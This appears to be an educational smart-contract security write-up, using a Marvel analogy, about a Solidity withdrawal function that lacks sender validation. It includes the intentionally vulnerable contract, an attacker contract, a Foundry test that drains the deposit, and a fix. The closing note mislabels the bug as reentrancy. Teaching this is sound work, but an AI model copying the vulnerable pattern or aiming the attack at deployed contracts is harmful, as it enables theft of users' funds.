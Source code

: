 # Loki Impersonates Iron Man – Input Validation Exploit Case Study

## TL;DR

- **Vulnerability:** Missing input validation in `exitPortal()` → anyone can impersonate a validator/hero.  
- **Impact:** Loki tricks the Mirror Dimension into letting him withdraw funds while pretending to be Iron Man.  
- **Severity:** Critical.  
- **Fix:** Require proper identity/authentication (consensus proof, signatures) before allowing exits.  

---
Check out the live version of the website [live here](https://www.thesandf.xyz/posts/improper-input-validation/).

## 🎬 Story Time

In the MCU, Doctor Strange protects the **Mirror Dimension**, where only trusted Avengers should pass through portals.  

But what if Strange fails to **check who’s walking out**?  

Enter **Loki**, the God of Mischief. If the portal only checks “is there an address?” instead of “is this really Iron Man?”, Loki can slip out disguised as Tony Stark and drain Stark’s treasure.  

This mirrors a real smart contract bug: missing **input validation** on withdrawal/exit functions.  

> *Fun fact: Loki doesn’t appear in **Doctor Strange (2016)**, but a post-credits scene shows Strange agreeing to help Thor search for Odin - with Loki tagging along. Loki’s impersonator skills make him the perfect metaphor here.*  

::github{repo="thesandf/thesandf.xyz"}

---

## 📌 Vulnerable Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

contract MirrorDimensionPortal {
    mapping(address => uint256) public balances;

    function deposit() external payable {
        require(msg.value > 0, "zero deposit");
        balances[msg.sender] += msg.value;
    }

    /// @notice Vulnerable exit function
    function exitPortal(address validator, uint256 amount) external {
        // Missing: require(msg.sender == validator)
        // Missing: consensus proof / signature verification
        require(amount > 0 && balances[validator] >= amount, "insufficient balance");

        balances[validator] -= amount;
        payable(msg.sender).transfer(amount);
    }
}
```
>[!WARNING]
Anyone can pass in `validator = IronMan` but call from `msg.sender = Loki`.  
The portal happily pays Loki.

---

##  Proof of Exploit

Attacker contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

import {MirrorDimensionPortal} from "./MirrorDimensionPortal.sol";

contract LokiAttack {
    MirrorDimensionPortal public portal;

    constructor(address _portal) {
        portal = MirrorDimensionPortal(_portal);
    }

    function impersonateIronMan(address ironMan, uint256 amount) external {
        portal.exitPortal(ironMan, amount);
    }

    receive() external payable {}
}
```

### Flow:
1. Iron Man deposits 100 ETH.  
2. Loki calls `exitPortal(IronMan, 100 ether)`.  
3. Contract doesn’t validate sender.  
4. Funds are sent to Loki.  

---

## Fixed Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

contract MirrorDimensionPortalFixed {
    mapping(address => uint256) public balances;

    function deposit() external payable {
        require(msg.value > 0, "zero deposit");
        balances[msg.sender] += msg.value;
    }

    function exitPortal(uint256 amount) external {
        require(amount > 0, "invalid amount");
        require(balances[msg.sender] >= amount, "insufficient balance");

        balances[msg.sender] -= amount;
        (bool sent,) = payable(msg.sender).call{value: amount}("");
        require(sent, "send failed");
    }
}
```

Fixes:  
- Only `msg.sender` can withdraw their own funds.  
- Stub for **validator proofs** or **signature-based authorization**.  
- Safer `.call` pattern for transfers.  

>[!NOTE]
Note: This demo uses `.call` for clarity and to show a realistic transfer. For production, prefer the pull-payment pattern and use `nonReentrant` + CEI. See `MirrorPortalPullPayment.sol` for a production-ready pattern.

---

##  Real-World Parallels

1. **Ethereum Validator Exit – \$41M Hack (2025)**  
   Missing validation in validator exits allowed unauthorized withdrawals.  
   👉 Loki pretending to be Iron Man.  
   [u.today report](https://u.today/ethereum-validator-exits-post-41-million-hack)  

2. **Improper Input Validation in DeFi**  
   Missing `require()` checks enable impersonation/unauthorized access.  
   👉 Doctor Strange forgetting to check the exit.  
   [Metana.io blog](https://metana.io/blog/improper-input-validation-in-smart-contracts/)  

---

## Auditor’s Checklist

- [ ] Validate ownership/signatures for addresses.  
- [ ] Require consensus proofs for validator exits.  
- [ ] Never let arbitrary addresses withdraw funds.  
- [ ] Simulate attacker contracts in tests.  

---

## Recommendations

- Always match `msg.sender` with the acting account.  
- Use **ECDSA signatures** or consensus proofs.  
- Prefer pull-payment patterns.  
- Include impersonation scenarios in test suites.  

---

## Test Snippet (Foundry)

```solidity
pragma solidity ^0.8.24;
import "forge-std/Test.sol";
import "../../src/Improper-Input-Validation/MirrorDimensionPortal.sol";
import "../../src/Improper-Input-Validation/LokiAttack.sol";

contract MirrorPortalTest is Test {
    MirrorDimensionPortal portal;
    LokiAttack loki;
    address ironMan = makeAddr("ironMan");
    address lokiAddr = makeAddr("loki");

    uint256 amount = 100 ether;

    function setUp() public {
        portal = new MirrorDimensionPortal();
        vm.deal(ironMan, amount);
        vm.startPrank(ironMan);
        portal.deposit{value: amount}();
        vm.stopPrank();
    }

    function testExploit() public {
        vm.startPrank(lokiAddr);
        loki = new LokiAttack(address(portal));
        loki.impersonateIronMan(ironMan, amount);
        vm.stopPrank();

        assertEq(address(loki).balance, amount, "Loki drained funds");
    }
}
```

Run locally:

```bash
forge test -vv
```

---

##  Closing Thought

Just like Loki slipping out of the Mirror Dimension disguised as Iron Man, attackers exploit **missing validation** to impersonate and steal.  

Doctor Strange’s lesson for Solidity devs:  
👉 **Always check who’s walking through your portal.**

> [!NOTE]
This repo is an **educational minimal reproduction** of reentrancy. The MCU analogy (Loki Impersonates Iron Man) makes the bug memorable, but the exploit reflects **real-world \$41M hacks**.


::github{repo="thesandf/thesandf.xyz"}

---
